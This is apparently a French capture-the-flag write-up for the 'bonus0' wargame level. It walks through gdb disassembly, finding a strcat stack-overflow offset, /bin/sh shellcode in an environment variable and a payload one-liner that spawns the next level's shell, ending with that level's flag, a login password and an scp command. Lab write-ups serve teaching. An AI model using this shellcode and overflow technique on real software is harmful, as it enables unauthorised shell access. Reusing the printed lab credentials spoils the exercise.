 On se connecte sur le bonus0, ou se trouve un **binaire** <code>bonus0</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
> gdb -q bonus0
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:     push   %ebp
   0x080485a5 <+1>:     mov    %esp,%ebp
   0x080485a7 <+3>:     and    $0xfffffff0,%esp
   0x080485aa <+6>:     sub    $0x40,%esp
   0x080485ad <+9>:     lea    0x16(%esp),%eax
   0x080485b1 <+13>:    mov    %eax,(%esp)
   0x080485b4 <+16>:    call   0x804851e <pp>
   0x080485b9 <+21>:    lea    0x16(%esp),%eax
   0x080485bd <+25>:    mov    %eax,(%esp)
   0x080485c0 <+28>:    call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:    mov    $0x0,%eax
   0x080485ca <+38>:    leave
   0x080485cb <+39>:    ret
End of assembler dump.
(gdb) > disas pp
Dump of assembler code for function pp:
   0x0804851e <+0>:     push   %ebp
   0x0804851f <+1>:     mov    %esp,%ebp
   0x08048521 <+3>:     push   %edi
   0x08048522 <+4>:     push   %ebx
   0x08048523 <+5>:     sub    $0x50,%esp
   0x08048526 <+8>:     movl   $0x80486a0,0x4(%esp)
   0x0804852e <+16>:    lea    -0x30(%ebp),%eax
   0x08048531 <+19>:    mov    %eax,(%esp)
   0x08048534 <+22>:    call   0x80484b4 <p>
   0x08048539 <+27>:    movl   $0x80486a0,0x4(%esp)
   0x08048541 <+35>:    lea    -0x1c(%ebp),%eax
   0x08048544 <+38>:    mov    %eax,(%esp)
   0x08048547 <+41>:    call   0x80484b4 <p>
   0x0804854c <+46>:    lea    -0x30(%ebp),%eax
   0x0804854f <+49>:    mov    %eax,0x4(%esp)
   0x08048553 <+53>:    mov    0x8(%ebp),%eax
   0x08048556 <+56>:    mov    %eax,(%esp)
   0x08048559 <+59>:    call   0x80483a0 <strcpy@plt>
   0x0804855e <+64>:    mov    $0x80486a4,%ebx
   0x08048563 <+69>:    mov    0x8(%ebp),%eax
   0x08048566 <+72>:    movl   $0xffffffff,-0x3c(%ebp)
   0x0804856d <+79>:    mov    %eax,%edx
   0x0804856f <+81>:    mov    $0x0,%eax
   0x08048574 <+86>:    mov    -0x3c(%ebp),%ecx
   0x08048577 <+89>:    mov    %edx,%edi
   0x08048579 <+91>:    repnz scas %es:(%edi),%al
   0x0804857b <+93>:    mov    %ecx,%eax
   0x0804857d <+95>:    not    %eax
   0x0804857f <+97>:    sub    $0x1,%eax
   0x08048582 <+100>:   add    0x8(%ebp),%eax
   0x08048585 <+103>:   movzwl (%ebx),%edx
   0x08048588 <+106>:   mov    %dx,(%eax)
   0x0804858b <+109>:   lea    -0x1c(%ebp),%eax
   0x0804858e <+112>:   mov    %eax,0x4(%esp)
   0x08048592 <+116>:   mov    0x8(%ebp),%eax
   0x08048595 <+119>:   mov    %eax,(%esp)
   0x08048598 <+122>:   call   0x8048390 <strcat@plt>
   0x0804859d <+127>:   add    $0x50,%esp
   0x080485a0 <+130>:   pop    %ebx
   0x080485a1 <+131>:   pop    %edi
   0x080485a2 <+132>:   pop    %ebp
   0x080485a3 <+133>:   ret
End of assembler dump.
(gdb) > disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:     push   %ebp
   0x080484b5 <+1>:     mov    %esp,%ebp
   0x080484b7 <+3>:     sub    $0x1018,%esp
   0x080484bd <+9>:     mov    0xc(%ebp),%eax
   0x080484c0 <+12>:    mov    %eax,(%esp)
   0x080484c3 <+15>:    call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:    movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:    mov    %eax,0x4(%esp)
   0x080484da <+38>:    movl   $0x0,(%esp)
   0x080484e1 <+45>:    call   0x8048380 <read@plt>
   0x080484e6 <+50>:    movl   $0xa,0x4(%esp)
   0x080484ee <+58>:    lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:    mov    %eax,(%esp)
   0x080484f7 <+67>:    call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:    movb   $0x0,(%eax)
   0x080484ff <+75>:    lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:    movl   $0x14,0x8(%esp)
   0x0804850d <+89>:    mov    %eax,0x4(%esp)
   0x08048511 <+93>:    mov    0x8(%ebp),%eax
   0x08048514 <+96>:    mov    %eax,(%esp)
   0x08048517 <+99>:    call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:   leave
   0x0804851d <+105>:   ret
End of assembler dump.
```

Après analyse du fichier (**source.c**), on se rend compte que l'exploitation du fichier se fera par la fonction **strcat**.

On cherche a obtenir le buffer dans le main, ce qui nous permettra de trouver l'offset : 

```gdb
(gdb) > b * 0x080485c0
Breakpoint 1 at 0x80485c0
(gdb) > run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAA
 -
ABCDEFGHIJKLMNOPQRSTUVW

Breakpoint 1, 0x080485c0 in main ()
(gdb) > ni
AAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOPQRST ABCDEFGHIJKLMNOPQRST
0x080485c5 in main ()
(gdb) > i f
Stack level 0, frame at 0xbffff700:
 eip = 0x80485c5 in main; saved eip 0x4d4c4b4a
 Arglist at 0xbffff6f8, args:
 Locals at 0xbffff6f8, Previous frame's sp is 0xbffff700
 Saved registers:
  ebp at 0xbffff6f8, eip at 0xbffff6fc
```
Sur l'eip sauvegardée, on voit que l'adresse (en little indian) commence par notre 'J', qui correspond donc au 10em caractère de notre seconde chaine.

> On commence à écraser l'eip au 10em caractère, l'offset est donc de 9.

Nous allons devoir rajouter un shellcode car nous n'avons pas la place de faire un ret2libc dans le peu de mémoire qu'il nous reste (**20 - 9 = 11** alors que ret2libc nécessite 12 bytes).

On écrit un shellcode dans une variable d'environement accessible pour le programme, et on trouve son adresse grâce a un petit script en c :

```shell
export SHELLCODE=$(python -c "print '\x90'*100 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x6
2\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")

echo "#include <stdio.h>
#include <stdlib.h>
int main(){ printf(\"SHELL= %p\n\", getenv(\"SHELLCODE\")); return 0; }" > /tmp/getsh.c

cd /tmp/
gcc getsh.c
./a.out
SHELL= \x\x\x\x
cd
```

Une fois l'adresse du shellcode dans l'environement trouvé, on peut appliquer la fonction suivante:   
<pre><code>python -c "print 'A' * 4095 + '\n' + 'B' * 9 + '\x\x\x\x' + 'B' * 7"</code></pre>

On ajoute A * 4095 + '\n' au premier argument pour pouvoir insérer le second argument, car la fonction **read** a un buffer de 4096, elle continuera donc de lire la suite des instructions dans stdin. Ce qui nous permet d'écrire nos deux arguments en une fois.  
Le '\n' permet de passer outre le strchr qui le transformera en '\0'.  
On mets 9 caractères au début du second argument pour arriver à la fin de l'offset et inserer à la suite notre shellcode.
On est obligé d'avoir au moins 7 caractères en plus pour le deuxième argument pour le **strchr**.

```shell
> (python -c "print 'A' * 4095 + '\n' + 'B' * 9 + '\x\x\x\x' + 'B' * 7"; cat) | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB
whoami
bonus1
cd ../bonus1 && cat .pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

For download :
<pre><code>scp -P4242 bonus0@192.168.1.78:bonus0 .</code></pre>
> Password : f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728


